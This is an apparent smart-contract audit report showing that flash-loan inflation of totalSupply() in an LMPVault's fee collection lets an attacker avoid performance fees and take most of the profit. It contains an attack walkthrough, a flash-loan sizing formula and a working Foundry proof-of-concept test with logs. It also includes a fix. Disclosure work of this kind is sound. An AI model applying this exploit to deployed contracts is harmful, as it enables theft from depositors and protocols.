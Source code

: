 Wonderful Sage Goldfish

high

# Attacker Can Steal generated Profit & performance fees, due to attacker controlled totalSupply() usage in _collectFees

## Summary
```solidity
function _updateDebtReporting(address[] memory _destinations) private {

uint256 nDest = _destinations.length;

prevNTotalDebt += totalDebtDecrease;

afterNTotalDebt += totalDebtIncrease;

....

// Persist our change in idle and debt
....

_collectFees(idle, debt, totalSupply()); /// @audit < here

}
```

totalSupply() can always be increase by attacker for a transaction using flashloans. Which makes the \_collectFees() function to not perform as intended leading to loss of some profit and all performanceFees.

## Vulnerability Detail

To understand the vulnerability better, we'll run through 2 scenarios, one with attacker manipulation and other a normal one.
LMPVault has 10 weth in debt and has 1 weth in idle and navPerShareHigh is 10000(default). Suppose the destVault generated 1% profit(0.1 weth). now in normal scenario
updateDebtReporting would be called by bots which will eventually call \_collectFees()
which calculates currentNavPerShare by the given formula-
```solidity
uint256 currentNavPerShare = ((idle + debt) * MAX_FEE_BPS) / totalSupply;
```
so currentNavPerShare = (1 + 10.1) ether \* 10000 / 11 ether = 10090 > 10000
now the following conditional is checked & satisfied

```solidity
if (currentNavPerShare > effectiveNavPerShareHighMark) {
// minting fee shares according to nav change
}

```

and everything works correctly. Now assume alice the attacker front runs the bot's original updateDebtReporting by a txn from her malicious contract. The malicious contract basically does the following-
1. It calculates flashLoan amount to take to using the formula 
**flashloanAmount = currentDebtOfLmpVault \* profitPercentage \* 100**
2. so in our case flashloanAmount = 10 \* 1 \* 100 = 1000 weth which she takes from balancer
3. In the flashloan callback she deposits 1000 weth in LMPVault and then calls the updateDebtReporting which will call \_collectFees()

But this time -
currentNavPerShare = (1001 + 10.1) eth \* 10000 / 1011 eth = 10000.98 = 10000 in solidity.And hence the above mentioned 'if conditional' will not be statisfied and no fees will be collected.
Now since alice is the major share holder of vault, she will withdraw , get most of the profit and repay her flashloan.

Working poc - 
```solidity
function test_Steal_Profit2() public {

uint idleAmount = 1 ether;

uint debtAmount = 10 ether;

uint totalAmount = idleAmount + debtAmount;

// 1 - 100, natural numbers only for simplicity

uint profitPercen = 1;

// the formula which gives flashloan amount needed

// to steal some profit by making sure that currentNav = navHighMark in _collectFees()

// and also no shares for fees will be minted to protocol

uint256 flashloanAmt = profitPercen*debtAmount * 100;

emit log_named_uint("Flashloan amt",flashloanAmt);

_accessController.grantRole(Roles.SOLVER_ROLE, address(this));

_accessController.grantRole(Roles.LMP_FEE_SETTER_ROLE, address(this));

// Setting a sink

address feeSink = vm.addr(555);

_lmpVault.setFeeSink(feeSink);

_lmpVault.setPerformanceFeeBps(2000); // 20%

  

// alice the attacker

address alice = address(7891);

_asset.mint(address(this),totalAmount);

_asset.approve(address(_lmpVault),totalAmount);

// deposit by LPs

uint shareBal = _lmpVault.deposit(totalAmount , address(this));

  

// rebalancing happens

_underlyerOne.mint(address(this),debtAmount /2 );

_underlyerOne.approve(address(_lmpVault), debtAmount /2 );

_lmpVault.rebalance(

address(_destVaultOne),

address(_underlyerOne), // tokenIn

debtAmount/2 ,

address(0), // destinationOut, none when sending out baseAsset

address(_asset), // baseAsset, tokenOut

debtAmount

);

// newPrice to represent profit

// 2 ether was starting price

uint256 newPrice = 2 ether +((2 ether * profitPercen) / 100);

_mockRootPrice(address(_underlyerOne),newPrice);

// attack begins, flashLoan by alice

_asset.mint(alice, flashloanAmt);

vm.startPrank(alice);

_asset.approve(address(_lmpVault), flashloanAmt);

uint aliceShares = _lmpVault.deposit(flashloanAmt, alice);

uint navPerShareHighMarkPrev = _lmpVault.navPerShareHighMark();

_lmpVault.updateDebtReporting(_destinations);

uint navPerShareHighMarkCurr = _lmpVault.navPerShareHighMark();

_lmpVault.redeem(aliceShares,alice,alice);

//repays the flashloan

_asset.burn(alice,flashloanAmt);

assertEq(navPerShareHighMarkCurr, navPerShareHighMarkPrev, "Making sure the navHigh didnt change");

assertEq(_lmpVault.balanceOf(feeSink),0,"Making sure no fees collected");

emit log_named_uint("Alice's profit", _asset.balanceOf(alice));

vm.stopPrank();

}
```

add it in LMPVault-Withdrawal.t.sol file under the LMPVaultMintingTests contract and run using the command
```solidity
forge test --match-path test/vault/LMPVault-Withdraw.t.sol --match-test test_Steal_Profit2 -vv
```

Logs:
  Flashloan amt: 1000000000000000000000
  Alice's profit: 98911968348170128

you can play around with it by changing the idleAmount,debtAmount and profitPercen(only natural number < 100).
## Impact

Loss of all generated profit for users and performance fees for protocol. 
Some things to keep in mind for this vuln 
1. WalletLimit is useless and does not prevent the attack as attacker can split the flashloan funds into 'babyContracts' . 
2. totalSupply limit might prevent it, but new vaults with 11 eth in value having a totalSupply limit of 100 eth(182k usd) is unrealistic, usually they will have either no supply limit or very high like 1 million usd value at least.
3. Also attacker does not need to know the exact ProfitPercentage he can overestimate it as long as flashloanAmt <= totalSupplyLimit.
4. The formula I gave is purely by intuition and hit & trial but works for most cases.
## Code Snippet

https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L797

https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L752-L798

https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L800-L832

## Tool used

Manual Review

## Recommendation

A quick fix would be to make updateDebtReporting a privileged function like others which call \_collectFees() to ensure no flash loan manipulation